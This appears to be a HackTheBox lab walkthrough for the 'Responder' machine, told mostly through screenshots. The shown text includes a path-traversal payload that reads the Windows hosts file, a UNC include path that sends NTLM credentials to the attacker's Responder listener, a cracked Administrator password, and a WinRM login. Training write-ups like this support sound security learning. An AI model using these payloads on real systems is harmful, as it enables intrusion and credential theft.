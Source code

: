 ![image](https://github.com/Meowdypi/HackTheBox/assets/122643833/13595758-fcc7-4fe5-968b-4ec3ac9fe0fb)


Plug IP address into web browser and get redirected to:

![image](https://github.com/Meowdypi/HackTheBox/assets/122643833/08162935-4333-451f-aaa6-c7a104888932)

Add 10.129.22.34 unika.htb to /etc/hosts file & reload web browser

![image](https://github.com/Meowdypi/HackTheBox/assets/122643833/260beebc-d860-4fb2-8a45-aaa34d0149bd)

![image](https://github.com/Meowdypi/HackTheBox/assets/122643833/77002750-6439-4590-813e-0f3d3e8a641c)

![image](https://github.com/Meowdypi/HackTheBox/assets/122643833/fb41a531-59d5-4302-b1a4-7f902a2eae05)

![image](https://github.com/Meowdypi/HackTheBox/assets/122643833/b243b3ef-05d5-4784-bf66-96e489d3189c)

![image](https://github.com/Meowdypi/HackTheBox/assets/122643833/2b1aedfa-b263-4d80-b8d2-5bf564024a41)

![image](https://github.com/Meowdypi/HackTheBox/assets/122643833/2386d77a-b040-4090-b31b-b130c39acbc3)


### File Inclusion vulnerability:

![image](https://github.com/Meowdypi/HackTheBox/assets/122643833/48f96069-1fe2-4b12-ba7a-cd6d00fbc63a)


page=../../../../../../../../windows/system32/drivers/etc/hosts

![image](https://github.com/Meowdypi/HackTheBox/assets/122643833/04d0efb6-c9a7-4efb-9f14-c30d6ed58857)

![image](https://github.com/Meowdypi/HackTheBox/assets/122643833/63de4695-4e55-44e0-addd-6c2eddad426e)


![image](https://github.com/Meowdypi/HackTheBox/assets/122643833/477e421a-9087-42ca-9a5a-c2948445f595)

![image](https://github.com/Meowdypi/HackTheBox/assets/122643833/04e8c8d8-e3fd-4f51-a8a6-0a7161826379)

![image](https://github.com/Meowdypi/HackTheBox/assets/122643833/6094521e-5928-463a-bcb3-de29feaa55e5)


## Using Responder

Capital i: 

![image](https://github.com/Meowdypi/HackTheBox/assets/122643833/7a411ede-7929-4496-a094-b7dfb0a02c4c)

![image](https://github.com/Meowdypi/HackTheBox/assets/122643833/6e882863-6151-4a53-9d13-26c05ce4090f)

![image](https://github.com/Meowdypi/HackTheBox/assets/122643833/aa369e8f-d916-4d37-a1c8-3fa53a5851d0)

Plug http://unika.htb/?page=//10.10.14.56/somefile into the browser (IP = local IP):

![image](https://github.com/Meowdypi/HackTheBox/assets/122643833/7e66e84b-3a3d-4221-9fe2-56c9d268632f)


### Hash Cracking:

![image](https://github.com/Meowdypi/HackTheBox/assets/122643833/49d64cc2-2d95-4a92-9528-857715de8327)

![image](https://github.com/Meowdypi/HackTheBox/assets/122643833/c85d97ef-2500-49fb-9710-b317001c040b)

![image](https://github.com/Meowdypi/HackTheBox/assets/122643833/71e9526d-81a6-40e1-afbd-629fad73f110)


Administrator password = badminton

![image](https://github.com/Meowdypi/HackTheBox/assets/122643833/c3696959-0d65-41b3-8511-2f6235a68ede)



### WinRM - logging in with the Administrator credentials
![image](https://github.com/Meowdypi/HackTheBox/assets/122643833/bee3b81e-d5bd-42e8-9ee6-66928f9f6886)

![image](https://github.com/Meowdypi/HackTheBox/assets/122643833/ff9f03fa-dd63-42d1-806e-c873a6b76b83)
![image](https://github.com/Meowdypi/HackTheBox/assets/122643833/efe4eb37-fc86-4eb0-a0cb-b13617bb0255)

